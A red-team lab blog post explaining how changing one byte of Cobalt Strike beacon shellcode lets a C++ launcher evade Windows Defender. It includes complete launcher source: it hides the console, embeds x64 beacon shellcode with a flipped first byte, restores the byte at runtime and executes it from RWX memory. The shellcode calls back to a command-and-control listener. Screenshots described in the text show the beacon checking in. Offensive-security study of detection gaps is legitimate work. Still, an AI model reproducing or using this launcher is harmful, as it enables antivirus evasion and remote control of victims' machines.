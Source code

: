 ```yaml
---
layout: post
title: "evading windows defender using classic c shellcode launcher with 1 byte change"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /evading-windows-defender-using-classic-c-shellcode-launcher-with-1-byte-change/
---
```


---
layout: post
title: "evading windows defender using classic c shellcode launcher with 1 byte change"
date: 2024-06-18
categories: defense-evasion
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /evading-windows-defender-using-classic-c-shellcode-launcher-with-1-byte-change/
---

# Evading Windows Defender with 1 Byte Change

This is a fun little lab to illustrate that sometimes changing just 1 byte in the shellcode is enough to bypass certain antivirus products, including the latest Windows Defender at the time of writing 11th Jan, 2019.

In this lab I'm using Windows 10 (1803) as a victim system, Kali running Cobalt Strike and Windows 7 where bad C++ happens.

## Out of the Box Payload Getting Caught

As you probably know, default / out of the box payloads are usually caught by antivirus vendors immedialy. No exception is the Cobalt Strike's default stageless beacon which gets flagged by Windows Defender on Windows 10:

![](<../../.gitbook/assets/Screenshot from 2019-01-11 13-02-28.png>)

Can we do something about it?

## 1 Byte Trick

Let's generate a Cobalt Strike shellcode for our listener in C:

![](<../../.gitbook/assets/Screenshot from 2019-01-11 14-35-25.png>)

Note that the first byte of the shellcode is `\xfc`.

For the next step, I'm using a classic shellcode injection technique I played with in [T1055: Process Injection](../code-injection-process-injection/).

Let's put the shellcode we got into the launcher, but with a small twist:

* Change `\xfc` to any other byte value. I chose `\xfd` (line 80)
* Store the correct first byte `\xfc` in a char variable (line 81)
* Before copying the full shellcode to the newly allocated memory, flip the bad byte `\xfd` with a good one `\xfc` (line 86)
* Build the executable
* Profit?

![](<../../.gitbook/assets/Screenshot from 2019-01-11 14-32-50.png>)

Below is the source code if you want to test it in your environment:

{% code title="shellcodelauncher.cpp" %}
```cpp
#include "stdafx.h"
#include "Windows.h"

int main(int argc, char *argv[]) {
	::ShowWindow(::GetConsoleWindow(), SW_HIDE);

	// cobalt strike beacon shellcode x64
	unsigned char shellcode[] = "\xfd\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75\x72\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4f\xff\xff\xff\x5d\x6a\x00\x49\xbe\x77\x69\x6e\x69\x6e\x65\x74\x00\x41\x56\x49\x89\xe6\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x48\x31\xc9\x48\x31\xd2\x4d\x31\xc0\x4d\x31\xc9\x41\x50\x41\x50\x41\xba\x3a\x56\x79\xa7\xff\xd5\xeb\x73\x5a\x48\x89\xc1\x41\xb8\xbb\x01\x00\x00\x4d\x31\xc9\x41\x51\x41\x51\x6a\x03\x41\x51\x41\xba\x57\x89\x9f\xc6\xff\xd5\xeb\x59\x5b\x48\x89\xc1\x48\x31\xd2\x49\x89\xd8\x4d\x31\xc9\x52\x68\x00\x02\x60\x84\x52\x52\x41\xba\xeb\x55\x2e\x3b\xff\xd5\x48\x89\xc6\x48\x83\xc3\x50\x6a\x0a\x5f\x48\x89\xf1\x48\x89\xda\x49\xc7\xc0\xff\xff\xff\xff\x4d\x31\xc9\x52\x52\x41\xba\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x85\x9d\x01\x00\x00\x48\xff\xcf\x0f\x84\x8c\x01\x00\x00\xeb\xd3\xe9\xe4\x01\x00\x00\xe8\xa2\xff\xff\xff\x2f\x63\x72\x38\x50\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x00\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x34\x2e\x30\x20\x28\x63\x6f\x6d\x70\x61\x74\x69\x62\x6c\x65\x3b\x20\x4d\x53\x49\x45\x20\x37\x2e\x30\x3b\x20\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x35\x2e\x31\x3b\x20\x2e\x4e\x45\x54\x20\x43\x4c\x52\x20\x31\x2e\x31\x2e\x34\x33\x32\x32\x29\x0d\x0a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x00\x41\xbe\xf0\xb5\xa2\x56\xff\xd5\x48\x31\xc9\xba\x00\x00\x40\x00\x41\xb8\x00\x10\x00\x00\x41\xb9\x40\x00\x00\x00\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda\x41\xb8\x00\x20\x00\x00\x49\x89\xf9\x41\xba\x12\x96\x89\xe2\xff\xd5\x48\x83\xc4\x20\x85\xc0\x74\xb6\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd7\x58\x58\x58\x48\x05\x00\x00\x00\x00\x50\xc3\xe8\x9f\xfd\xff\xff\x31\x30\x2e\x30\x2e\x30\x2e\x35\x00\x00\x00\x00\x00";
	char first[] = "\xfc";
	void *exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	
	memcpy(shellcode, first, 1);
	memcpy(exec, shellcode, sizeof shellcode);
	((void(*)())exec)();
	
	return 0;
}
```
{% endcode %}

## Execution

On the left - Windows 10 with Windows Defender turned on and on the right is Cobalt Strike receiving the beacon checkin once our shellcode is invoked:

![](<../../.gitbook/assets/Peek 2019-01-11 14-45.gif>)

{% hint style="danger" %}
This is a quick and dirty proof of concept and hence the console window is visible for a brief moment, meaning a target user can suspect nefarious activity.
{% endhint %}

Below shows that the beacon that called back is stable and working as expected:

![](<../../.gitbook/assets/Screenshot from 2019-01-11 14-47-10.png>)

Below is another quick demo showing that the latest Windows updates were installed at the time of testing the POC on 11th Jan, 2019:

![](<../../.gitbook/assets/Peek 2019-01-11 15-02.gif>)

## Default Payload

Below shows that if the Cobalt Strike shellcode was injected as is, it immediately gets flagged:

![](<../../.gitbook/assets/Peek 2019-01-11 16-50.gif>)

## Conclusion

Although not completely stealthy - the console window is visible for a brief moment during shellcode exeution, this short lab demonstrates that sometimes all it takes to evade AV detection is 1 one byte way.

## Subliminal Inspiration

{% embed url="https://twitter.com/curi0usjack/status/1083470829290164227?s=12" %}

{% hint style="info" %}
**Update**\
[@curi0usJack](https://twitter.com/curi0usJack) informed me that [@HackingDave](https://twitter.com/HackingDave) had found the same Windows Defender bypass technique as seen here [https://github.com/trustedsec/unicorn/commit/40569caff60cc533a5b8d0ad68d8c822aa0fb932#diff-97dd53d8ebb9afbc90da38a12a3ff1a4L844](https://github.com/trustedsec/unicorn/commit/40569caff60cc533a5b8d0ad68d8c822aa0fb932#diff-97dd53d8ebb9afbc90da38a12a3ff1a4L844) as part of his `Unicorn` project - very nice work! I will be definitely checking out the tool and its capabilities!
{% endhint %}

@spotheplanet
